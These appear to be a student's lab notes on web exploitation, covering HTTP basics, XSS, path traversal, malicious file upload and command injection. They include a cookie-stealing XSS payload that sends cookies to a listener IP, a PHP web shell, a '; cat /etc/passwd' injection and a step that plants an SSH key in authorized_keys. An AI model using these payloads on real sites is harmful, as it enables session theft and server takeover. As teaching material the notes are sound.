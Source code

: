 ## HTTP Methods
* GET
* POST
* HEAD
* PUT
## HTTP Response Codes
* 10X - Informational
* 2XX - Success
* 30X = Redirection
* 4XX - Client Error
* 5XX - Server Error
## HTTP Fields
* User-Agent
* Referer
* Cookie
* Date
* Server
* Set-Cookie
## JavaScript Interaction
```
<script>
function myFunction() {
    document.getElementById("demo").innerHTML = "Paragraph changed.";
}
</script>
<script src="https://www.w3schools.com/js/myScript1.js"></script>
```
* JS Demo - http://10.50.XX.XX/java/Javademo.html
## Enumeration
* ROBOTS.TXT
  - If you find this file, go to it and enumerate (There might be something important here)
* Legitimate surfing
* Tools:
  - NSE scripts
  - Nikto
  - Burp suite (outside class)
## Cross-Site scripting (XSS) Overview
* Insertion of arbitrary code into a webpage, that executes in the browser of visitors
* Unsanitized GET, POST, and POST methods allow JS to be placed on websites
* Often found in forums that allow HTML
## Reflected XXS
* Most common form of XSS
* Transient, occurs in error messages or search results
* Delivered through intermediate media, such as a link in an emial
* Characters that are normally illegal in URLs can be Base64 encoded
## Stored XSS
* Resides on vulnerable site
* Only requires user to visit page
```
<img src="http://invalid" onerror="window.open('http://10.50.XX.XX:8000/ram.png','xss','height=1,width=1');">
```
## <script>document.location="http://10.50.39.224:8000/"+document.cookie;</script>

## Useful Javascript components
* Proof of concept (simple alert)
  - `<script>alert('XSS');</script>`
* Capturing Cookies
  - `document.cookie`
* Capturing Keystrokes
  - `bind keydown and keyup`
* Capturing Sensitive Data
  - `document.body.innerHTML`
## Server-Side Injection
* Ability to read/execute outside web server's directory
* Uses `../../` (relative Paths) in manipulating a server-side file path
* `www-data` is the user that web servers on ubuntu or Apache, Nginx
## Malicious File Upload
* Server Doesnt Validate extension or size
* Allows or code execution (shell)
* Once uploaded
  - Find your file
  - Call your file
#### Establishes a shell
```
<HTML><BODY>
  <FORM METHOD="GET" NAME="myform" ACTION="">
  <INPUT TYPE="text" NAME="cmd">
  <INPUT TYPE="submit" VALUE="Send">
  </FORM>
  <pre>
  <?php
  if($_GET['cmd']) {
    system($_GET['cmd']);
    }
  ?>
  </pre>
  </BODY></HTML>
```
## Command Injection
* User input not validated
* Might contain the following in it’s code:
```
system("ping -c 1 ".$_GET["ip"]);
```
* Run the following to chain/stack our arbitrary command
```
; cat /etc/passwd
```
## Key Regen (SSH)
```
ssh-keygen -t rsa -b 4096
cat  /.ssh/id_rsa.pub
echo "your key" > /var/www/.ssh/authorized_keys
```
# Demo
```
python3 -m http.server # This makes a webserver
<script>document.location="http://10.50.30.231:8000/"+document.cookie;</script> # This script steals cookies from users and sends it to our webserver
```
# CTF
```
64 bytes from 10.100.28.33: icmp_seq=1 ttl=64 time=0.191 ms
64 bytes from 10.100.28.34: icmp_seq=1 ttl=63 time=1.31 ms
64 bytes from 10.100.28.35: icmp_seq=1 ttl=63 time=2.58 ms
64 bytes from 10.100.28.40: icmp_seq=1 ttl=63 time=0.593 ms
64 bytes from 10.100.28.48: icmp_seq=1 ttl=63 time=0.608 ms

Nmap scan report for 10.100.28.48
Host is up (0.00049s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
4444/tcp open  krb524

```


















